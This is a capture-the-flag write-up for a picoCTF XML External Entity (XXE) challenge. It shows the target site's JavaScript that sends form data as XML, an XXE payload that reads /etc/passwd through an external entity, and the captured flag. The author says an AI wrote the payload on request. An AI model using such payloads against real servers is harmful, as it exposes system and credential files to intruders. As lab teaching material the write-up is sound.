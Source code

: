 ***Flag:***
<br>
picoCTF{XML_3xtern@l_3nt1t1ty_540f4f1e}
<br>
***Approaching the challenge:***: <br>
The site we enter <br>
![{37163FCF-1B6B-457B-8B36-3848D3785DB4}](https://github.com/user-attachments/assets/616a10e3-689e-4ac6-9b7e-03d157cab049)
<br>
XXE was the hint which stands for XML External entity. To solidfy this hint, the source code had 2 more js files which had xml data on it. <br>
DetailsCheckPayload.js
```
window.contentType = 'application/xml';

function payload(data) {
    var xml = '<?xml version="1.0" encoding="UTF-8"?>';
    xml += '<data>';

    for(var pair of data.entries()) {
        var key = pair[0];
        var value = pair[1];

        xml += '<' + key + '>' + value + '</' + key + '>';
    }

    xml += '</data>';
    return xml;
}
```
and 
<br> detailscheck.js
```
document.querySelectorAll('.detailForm').forEach(item => {
    item.addEventListener("submit", function(e) {
        checkDetails(this.getAttribute("method"), this.getAttribute("action"), new FormData(this));
        e.preventDefault();
    });
});
function checkDetails(method, path, data) {
    const retry = (tries) => tries == 0
        ? null
        : fetch(
            path,
            {
                method,
                headers: { 'Content-Type': window.contentType },
                body: payload(data)
            }
          )
            .then(res => res.status == 200
                ? res.text().then(t => t)
                : "Could not find the details. Better luck next time :("
            )
            .then(res => document.getElementById("detailsResult").innerHTML = res)
            .catch(e => retry(tries - 1));

    retry(3);
}
```
Hence we conclude that it's XXE. <br>
The source I used basically sent request of the flag with our payload. AI explained how by c reating a custom XXE payload to read a file involves exploiting a vulnerable XML p by injecting an external entity that points to the desired file. Since we need to read the /etc/passwd file it strongly suggested to use this. So I asked AI to write a custom payload(below) on the request and it resulted in the flag.

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>
  <ID>&file;</ID>
</data>
```

After forwarding I finally found the flag:
<br>
![{36C50246-BA17-4DE1-AB71-BCDB6BB0949B}](https://github.com/user-attachments/assets/681c2dc6-753e-4928-8cde-f9ad1f111f6f)

